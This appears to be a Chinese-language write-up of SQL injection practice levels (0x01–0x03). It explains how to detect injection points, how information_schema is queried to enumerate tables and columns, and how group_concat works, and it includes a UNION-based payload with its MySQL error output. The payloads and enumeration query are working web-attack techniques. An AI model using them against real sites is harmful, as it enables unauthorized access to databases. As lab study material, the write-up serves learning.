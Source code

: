 ### 知识补充

#### 判断注入点

```
1）可控参数的改变能否影响页面的显示结果
2）输入的sql语句是否能够报错，通过数据库的报错我们可以看到数据库的一些语句痕迹
3）输入的sql语句能否不报错，语句能成功闭合
```

#### information_schema

Mysql的信息数据库，保存着Mysql服务器维护的所有其他数据库的信息

```
schemata：当前所有实例中所有数据库的信息
	schema_name字段，存储了所有数据库名
tables：关于表的信息
	table_name字段，存储了所有表名
	table_schema：查询条件，确认表对应的数据库名
columns：表中的列信息
	column_name字段，存储了所有列信息
	table_name：查询条件，确认列对应的表名

使用实例：
select column_name from information_schema.columns where TABLE_SCHEMA='sqli' and TABLE_NAME='user';
```

#### group_concat()

```
concat(字段1，字段2...)：将所有字段合并输出
concat_ws(分隔符，字段1，字段2...)：将所有字段合并输出，可以一次性指定分隔符
group_concat( [DISTINCT] 要连接的字段 [Order BY 排序字段 ASC/DESC] [Separator ‘分隔符’] )
```

## 0x02

与0x01类似，与0x01不同的是，0x01是字符型注入，本题是数字型注入

?id=0即可

## 0x03

判断注入点

```
?id=1' union select 1,2,3 --+
```

得到报错信息为

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'union select 1,2,3 -- ') LIMIT 0,1' at line 1
```
